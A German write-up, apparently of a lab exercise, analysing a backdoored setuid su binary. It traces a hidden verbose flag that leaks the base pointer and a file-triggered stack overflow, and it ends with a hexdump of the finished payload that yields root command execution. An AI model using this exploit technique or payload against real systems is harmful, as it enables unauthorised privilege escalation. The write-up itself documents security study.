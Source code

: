 ## Dokumentation des Vorgehens
### Allgemeine Informationen sammeln

1. Die gegebene IP anpingen -> Server ist erreichbar
1. HTTP-Request -> es läuft kein HTTP-Server`
1. `nmap` anwenden: Port 22 (ssh) ist offen
1. Login ist möglich
1. `uname -a`: Allgemeine Informationen zum System: Linux arch 4.5.4-1-ARCH #1 SMP PREEMPT x86_64 GNU/Linux
1. Logs versucht einzusehen: No Permissions
1. Installierte Programme einsehen und analysieren: __30 Minuten__ 
1. Berechtigungen anschauen: Dabei viel auf, dass das Änderungsdatum der `su`-Binary von den anderen abweicht: Zufall
1. Vermutung: Rootkit in der Binary.
1. Einlesen zum Thema Rootkits: [^1][^2][^3]
1. `file` angewendet: su: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a6fdad0603136d4b68ee933c322f7908bbbb775e, stripped
1. `ldd` angewendet: keine Auffälligkeit
1. `su` ausgeführt: keine Auffälligkeit
1. Einlesen zum Thema Stackoverflow: [^4]


### Genauere Analyse
1. Fuzzing auf `su` angewendet: ab einer gewissen Länge -> bash: command not found
 1. Selbes verhalten auf Host-System: Ansatz verworfen
1. `Strings` angewendet:   
    Auffälligkeit:   
    `5f23 %#08lx` => Einbeziehung des ELF-Adressraumes: 0x405f23: __1.3 Stunden_
1. `su --help` ausgeführt: Auffälligkeit -> es gibt ein `-v --verbose` Flag. Dieses Flag wird in der manpage nicht erwähnt.
1. `su -v` ausgeführt: keine Auffälligkeit
1. `su -v 4` ausgeführt: keine Auffälligkeit: user 4 does not exist
1. `strace` ausgeführt: Geht nur bis zur Eingabe des Passworts
1. `strace` auf su process attachen: No permissions
1. Den `strace` output mit dem des Host-Systems verglichen __1.7 Stunden__
1. Mit GDB debuggen: Keine Neuen Informationen: __1 Stunde__
1. Mit Disassembler statisch analysiert (radare2 v.0.10.2)
 1. Main-Wrapper auflösen um die richtige Main-Methode zu finden
 1. Die `richtige` Main Funktion im Assembler analysiert: __6.5 Stunden__
1. `getopt`-Funktion suchen -> 0x4041e6  
    Auffälligkeit: `getopt`-Parameter: `v` erlaubt einen optionalen Parameter
1. `su -vx` ausgeführt: Es wird eine Adresse ausgegeben -> 0x7fffffffeaf0
1. ASLR (Address Space Layout Randomization) ist ausgeschaltet:  
    ```
    $ cat /proc/sys/kernel/randomize_va_space
    0
    ```  
    Auffälliger String könnte die Adresse einer wichtigen Stelle sein.
1. Original `su`-Quelltext angeschaut: Switch-Case über die Parameter __3 Stunden__
1. Mittels Disassembler die Stelle suchen, an der der Adressen-String benutzt wird:   
    0x40416d -> Parameter der `printf`-Funktion an 0x404177.  
    Stellt den '-v'-Fall des Switch-Cases dar.
1. `-v`-Case: nach der Ausgabe  wird eine Funktion aufgerufen:  
    Aufruf: 0x4041e6  
    Funktion: 0x40c2e1
1. Diese Funktion macht File-Handling-stuff.
 1. Zunächst vermutet, es handelt sich nicht mehr um den `-v`-Case.
1. `su -vDatei.txt` ausgeführt: Segmentation fault: __2.0 Stunden__
1. Herausfinden, wie groß die Datei mindestens sein muss, um einen Segmentation fault auszulösen:   
    137 Zeichen; vielleicht sind aber noch weitere Bytes durch Variablen belegt, bevor Base-Pointer und Instruction-Pointer kommen:  
    144 Zeichen bis Base-Peointer: __11.5 Stunden__
1. Mittels der Analyse im Disassembler eine Stelle suchen, die ausgenutzt werden kann: execvp gefunden: 0x404777: __1 Stunde__
1. Die Adresse des Exec-Befehls an Datei.txt anhängen: Keine Veränderung.
1. Analyse der Adress-Ausgabe: Der Basepointer wird ausgegeben.
1. Die Ausgabe von `-v` ist der Basepointer: Dieser muss gesichert werden.
1. Basepointer vor der `execvp`-Adresse in die Datei.txt einfügen. __3 Stunden__
1. `su -vDatei.txt` ausführen: keine Änderung
1. `su -vDatei.txt ls` ausführen: `ls` wird mit den normalen User-Rechten ausgeführt. 
1. Weitersuchen im Assembler: Funktion oberhalb des Exec-Aufrufs genauer ansehen:  
    Benutzt: 0x404735  
    Funktion: 0x402dd9: 
    __4 Stunden__
1. Die Funktion ruft `setuid` und `setgid` auf (jeweils 0 als Argument):  
    Ersetzen der Exec-Adresse in der Datei mit der Adresse des Funktionsaufrufs (s.o.)
1. `su -vDatei.txt ls` ausführen: `ls`: wird als root ausgeführt __30 Minuten__ 


### Hexdump der Datei

```
$ hexdump --no-squeezing --canonical Datei.txt
00000000  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000010  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000020  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000030  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000040  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000050  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000060  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000070  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000080  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000090  10 eb ff ff ff 7f 00 00  35 47 40                 |........5G@|
0000009b
```

[^1]: de.wikipedia.org/wiki/Rootkit
[^2]: en.wikipedia.org/wiki/Rootkit
[^3]: www.sans.org/reading-room/whitepapers/linux/linux-rootkits-beginners-prevention-removal-901
[^4]: www-scf.usc.edu/~csci530l/downloads/stackoverflow_en.pdf
